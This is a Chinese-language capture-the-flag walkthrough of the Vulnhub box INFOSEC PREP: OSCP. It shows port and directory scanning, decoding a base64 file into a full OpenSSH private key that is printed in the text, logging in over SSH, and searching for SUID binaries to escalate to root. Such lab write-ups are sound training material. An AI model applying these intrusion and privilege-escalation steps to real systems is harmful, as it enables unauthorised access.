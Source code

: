 ```yaml
---
title: INFOSEC PREP:OSCP
author: hgbe02
date: 2024-06-10
categories: [Training platform,Vulnhub]  
tags: [Vulnhub,web]  
permalink: "/Vulnhub/Infosec-prep-oscp.html"
---
```


# INFOSEC PREP: OSCP

![image-20240124101139259](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401241209530.png)

听说这个靶场对新手比较友好，今天来试试，吃一堑长一智，这次使用virtualbox进行打开：

![image-20240124101305989](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401241209531.png)

ok，一切正常。

## 踩点

打开看一下有没有啥提示：

![172.20.10.4_](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401241209532.png)

随便点点，瞅瞅！找到一个登录界面：

![image-20240124101715360](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401241209533.png)	

还有提示：

```text
Heya! Welcome to the hunt.
In order to enter the give away, you must obtain the root flag located in /root/. Once you’ve obtained the flag, message the TryHarder bot with the command !flag <insert flag>. It will then validate the flag for verification. Should it be incorrect, it will let you know. If it’s correct, you will be given a new role on the server where you can chat with others in a private channel. Once you’ve received the role you are entered into the give away!
You must be a member of the server in order to use the command above.
For those downloading this box off vulnhub at a later time, the command above will no longer be available.
Oh yea! Almost forgot the only user on this box is “oscp”.
A big thank you to Offensive Security for providing the voucher.
Happy Hunting
-FalconSpy & InfoSec Prep Discord Server
( https://discord.gg/RRgKaep )
```

可以看出来只有一个用户名为OSCP，先扫一下开放端口和目录吧。

## 扫描开放端口

```shell
nmap -Pn -sT -p- IP -o nmap.txt -T4
```

我这里觉得太慢直接使用`nmap IP`出现了报错：

> Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-23 21:54 EST
> Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
> Nmap done: 1 IP address (0 hosts up) scanned in 3.03 seconds
>
> Solution: use  '-Pn' . 

结果如下：

```text
Nmap scan report for 172.20.10.4
Host is up (0.0015s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
33060/tcp open  mysqlx
```

## 目录扫描

使用`dirb`尝试：

```shell
dirb http://172.20.10.4/
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401241209534.png" alt="image-20240124104654031" style="zoom:50%;" />

可以看到有`robots.txt`文件夹，看一下有没有啥惊喜：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401241209535.png" alt="image-20240124110548284" style="zoom:50%;" />

尝试访问一下，看看能不能访问：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401241209536.png" alt="image-20240124110631361" style="zoom:50%;" />

看到最后的`=`意识到这可能是`base64`编码，解码一下：

```shell
sudo curl -s 'http://172.20.10.4/secret.txt' | base64 --decode > 1.txt
```

这里如果出现问题就创建一个1.txt，给下权限再执行，获取ssh私钥，尝试连接：

```text
-----BEGIN OPENSSH PRIVATE KEY-----
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
8nfK2oDc6LfrDmjQAAAAlvc2NwQG9zY3A=
-----END OPENSSH PRIVATE KEY-----
```

直接ssh连接上去：

```shell
ssh -i id_rsa oscp@172.20.10.4
# ssh服务开了的
# id_rsa是1.txt改了个名字：mv 1.txt id_rsa
# 用户名是给了的oscp
┌──(kali㉿kali)-[~/nmap/OSCP]
└─$ ssh -i id_rsa oscp@172.20.10.4
The authenticity of host '172.20.10.4 (172.20.10.4)' can't be established.
ED25519 key fingerprint is SHA256:OORLHLygIlTRZ4nXi9nq+WIrJ26fv7tfgvVHm8FaAzE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.20.10.4' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-40-generic x86_64)
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
  System information as of Wed 24 Jan 2024 03:28:22 AM UTC
  System load:  0.08               Processes:             172
  Usage of /:   26.8% of 19.56GB   Users logged in:       0
  Memory usage: 58%                IPv4 address for eth0: 172.20.10.4
  Swap usage:   0%
0 updates can be installed immediately.
0 of these updates are security updates.
The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Last login: Sat Jul 11 16:50:11 2020 from 192.168.128.1
```

## SUID提权

> SUID (Set UID)是Linux中的一种特殊权限,其功能为用户运行某个程序时，如果该程序有SUID权限，那么程序运行为进程时，进程的属主不是发起者，而是程序文件所属的属主。但是SUID权限的设置只针对二进制可执行文件,对于非可执行文件设置SUID没有任何意义.
>
>  在执行过程中，调用者会暂时获得该文件的所有者权限,且该权限只在程序执行的过程中有效. 通俗的来讲,假设我们现在有一个可执行文件`ls`,其属主为root,当我们通过非root用户登录时,如果`ls`设置了SUID权限,我们可在非root用户下运行该二进制可执行文件,在执行文件时,该进程的权限将为root权限.

先使用find命令查找SUID文件：

```bash
find / -perm -u=s -type f 2>/dev/null
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401241209538.png" alt="image-20240124114110737" style="zoom:50%;" />

使用bash进行提权：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202401241209539.png" alt="image-20240124115118466" style="zoom:50%;" />

获取flag。